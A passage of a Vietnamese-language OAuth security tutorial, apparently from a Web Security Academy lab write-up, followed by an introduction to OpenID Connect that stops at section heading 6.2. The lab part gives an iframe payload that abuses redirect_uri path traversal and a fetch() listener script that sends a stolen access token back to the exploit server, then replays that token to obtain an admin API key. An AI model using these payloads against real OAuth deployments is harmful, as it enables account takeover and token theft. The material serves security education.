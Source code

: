   ```html
  <iframe src="https://oauth-0a000099040155ac80791fc402e10024.oauth-server.net/auth?      client_id=d65gmiamgflj73aitqkbx&redirect_uri=https://0a2e002104a6550d80802158005e00ba.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1939139160&scope=openid%20profile%20email"></iframe>
  ```

- Ở bên dưới, ta sẽ thêm một đoạn script để lắng nghe web messages:

  ```html
  <script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
  </script>
  ```

  <img width="1892" height="938" alt="image" src="https://github.com/user-attachments/assets/bfd748c4-7174-4a85-83f4-7c562808b542" />

  <p style="text-align: justify;"> &rarr; Tức là sau khi victim user click vào link giấu trong iframe, lúc này đường dẫn URL trả về access token được chuyển hướng tới comment form là */post/comment/comment-form*, do trong comment form sử dụng postMessage() để gửi dữ liệu full URL hiện tại của iframe tới parent window (ở đây là exploit server). Mà parent lại có đoạn code script như trên (fetch gadget), do đó access token cuối cùng sẽ được exploit server lắng nghe và tự động gửi request đó về cho chính nó, lúc này ta chỉ cần kiểm tra access log để lấy access token. </p>

- Kiểm tra access log, ta thu được:

  <img width="1895" height="919" alt="image" src="https://github.com/user-attachments/assets/054338b6-bba0-40a5-9b7d-c2c73de3a804" />

- Thay token ở trong trường *Authorization* của request /me, sau đó gửi lại request, ta sẽ thu được api key của admin:

  <img width="1868" height="816" alt="image" src="https://github.com/user-attachments/assets/d220b993-20f1-4f63-837b-d4454cb3fcf0" />

  → Kết quả ta đã thực hiện API call thành công để lấy dữ liệu của nạn nhân, bao gồm cả khóa API của họ.

---

## 6. OPENID Connect

### 6.1. OPENID là gì?

- OpenID Connect mở rộng giao thức OAuth để cung cấp một lớp nhận dạng và xác thực chuyên dụng nằm trên nền tảng triển khai cơ bản của OAuth. Nó thêm một số chức năng đơn giản giúp hỗ trợ tốt hơn cho kịch bản xác thực của OAuth.

- Để hỗ trợ OAuth đúng cách, client application sẽ phải cấu hình các cơ chế OAuth riêng biệt cho mỗi nhà cung cấp, mỗi cái có các endpoints khác nhau, scope riêng và nhiều thứ khác nữa.

- OpenID Connect giải quyết nhiều vấn đề này bằng cách thêm các tính năng liên quan đến danh tính theo tiêu chuẩn để làm cho việc xác thực qua OAuth hoạt động một cách đáng tin cậy và đồng nhất hơn.

### 6.2. How does OpenID Connect work?
